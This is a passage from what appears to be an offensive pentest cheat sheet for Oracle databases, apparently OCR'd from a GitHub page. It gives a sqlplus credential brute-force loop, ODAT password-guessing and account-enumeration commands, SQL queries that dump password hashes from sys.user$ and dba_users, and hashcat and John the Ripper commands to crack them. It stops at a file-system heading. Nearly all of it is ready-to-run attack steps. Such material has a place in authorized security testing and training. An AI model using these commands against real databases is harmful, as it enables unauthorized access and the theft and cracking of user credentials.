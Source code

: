 ```bash
        echo "SELECT 1 FROM dual;" | sqlplus -S $user/$pass@$TARGET:1521/$SID 2>/dev/null | grep -q "^1$" && echo "[+] Valid: $user:$pass"
    done
done
```

#### ODAT Comprehensive Testing
```bash
# Test all ODAT modules
./odat.py all -s target -d XE

# Specific password guessing
./odat.py passwordguesser -s target -d XE -U system -P passwords.txt

# User enumeration
./odat.py passwordguesser -s target -d XE --accounts-file users.txt
```

---

## Advanced Techniques

### Password Hash Extraction

#### Extract User Hashes
```sql
-- Oracle 10g/11g password hashes
SELECT name, password FROM sys.user$;

-- Oracle 12c+ password hashes
SELECT name, spare4 FROM sys.user$;

-- User account information
SELECT username, password, account_status FROM dba_users;

-- Extract to file (if permissions allow)
SELECT name||':'||password FROM sys.user$;
```

#### Hash Cracking
```bash
# Hashcat Oracle hash cracking
hashcat -m 3100 hashes.txt wordlist.txt    # Oracle 11g
hashcat -m 12300 hashes.txt wordlist.txt   # Oracle 12c+

# John the Ripper
john --format=oracle11 hashes.txt
john --format=oracle12c hashes.txt
```

### File System Operations
